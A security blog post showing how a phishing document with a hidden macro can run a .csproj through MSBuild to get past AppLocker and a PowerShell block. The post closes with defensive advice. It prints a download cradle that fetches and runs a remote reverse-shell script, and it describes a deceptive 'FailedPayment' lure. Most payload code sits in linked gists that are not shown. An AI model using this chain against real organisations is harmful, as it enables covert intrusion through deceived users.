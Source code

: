 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: true
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png){: .center-image }


### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and so simulated phishing campaigns and user awareness training are extremely important. However, there can never be complete assurance against credential divulgence or execution of malicious code via crafted (or not so crafted) phishing attacks, and so it is critical that organisations implement a multi-layered "defence in depth" strategy. Application whitelisting is an important component of such a strategy, and is an effective means of ensuring that only approved applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. Commonly, the default AppLocker rules (listed below) are applied.


![rules]({{ site.url }}/images/applocker-default-rules.png){: .center-image }


Since Powershell has gained recognition for being the attackers language of choice, organisations are increasingly blocking it. However, blocking powershell.exe alone is not sufficient as there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with the "misplaced trust binary" (as Casey Smith puts it) MSBuild.exe. In this scenario, the company has enabled AppLocker with default rules and has also blocked powershell.exe.


![rules]({{ site.url }}/images/applocker-rules.png){: .center-image }


However, assuming that MSBuild.exe is allowed, we can have it execute a ".csproj" (Visual Studio .NET C# Project file) and instantiate a Powershell runspace using the System.Management.Automation.dll assembly. The powashell.csproj file below by Casey Smith ([@SubTee](https://twitter.com/subtee)) builds upon Jared Atkinson's ([@jaredcatkinson](https://twitter.com/jaredcatkinson)) and Justin Warner's ([@sixdub](https://twitter.com/sixdub)) work.


<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>


This executes the second stage of our payload via a PowerShell 3.0+ download cradle:

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

shell.ps1:

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>


Good. Now we need a means of delivering the project file and executing MSBuild. The macro below will do just this.


<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>


The `WindowType` parameter of the Shell function has been set to `vbHide` in order to avoid calling attention to our activities. Now, in order to stand a chance of the macro being executed, we need to dress the document appropriately.

John Lambert ([@JohnLaTwC](https://twitter.com/johnlatwc)) regularly shares interesting phishing lures and payloads, if you need inspiration for your simulated phishing campaigns. The "Document created in newer/older Office version" lure is one I find especially convincing. John has also put together [this](https://t.co/OwH28ltngy) compendium of macro based lures, which is great for educating users about the different techniques attackers use.

Our FailedPayment.doc lure:

![lure]({{ site.url }}/images/phishing-lure.png){: .center-image }


Now that the "malicious" document has been created we can test it out.

Once the user opens the document and enables macros, our powashell.csproj is downloaded for MSBuild to execute, which in turn downloads and executes the Powershell reverse shell one-liner. All completely invisible to the user.


![rules]({{ site.url }}/images/shell.png){: .center-image }


We can see that this payload is also an effective means of bypassing PowerShell Contrained Language mode.

This is not a particularly stealthy attack as the .csproj is written to disk, and no attempt was made to obfuscate any part of the payload.

Hopefully, this example highlights the danger of "misplaced trust" binaries such as MSBuild. Companies should block their use unless explicitely required for certain users (e.g. developers). Oddvar Moe ([@Oddvarmoe](https://twitter.com/oddvarmoe)) maintains an excellent [collection](https://github.com/api0cradle/UltimateAppLockerByPassList) of AppLocker bypass techniques, which is a good list of the "misplaced trust" binaries that IT departments should consider blocking.

Additionally, if a company has decided to block PowerShell using Application Whitelisting, then the following PowerShell binaries and assemblies should be part of the exception block list.


<script src="https://gist.github.com/egre55/61b6cd2b23b605e6a017e81e5cb97f3e.js"></script>


However, as mentioned, there are multiple methods an attacker could use to instantiate a Powershell runspace, for example by downloading a custom binary to one of the writable and executable folders within C:\Windows that AppLocker has whitelisted.

In which case, Defenders could respond by ... and so the back and forth attacker/defender dance continues :)

Companies should also consider blocking macros for users who don't need this functionality, and consider crafting a custom whitelisting policy, mindful of the permissiveness of default rules.

Ultimately, an "assume breach" mentality is paramount, but before compromise we have to make it as hard as possible for an attacker to gain that initial foothold.





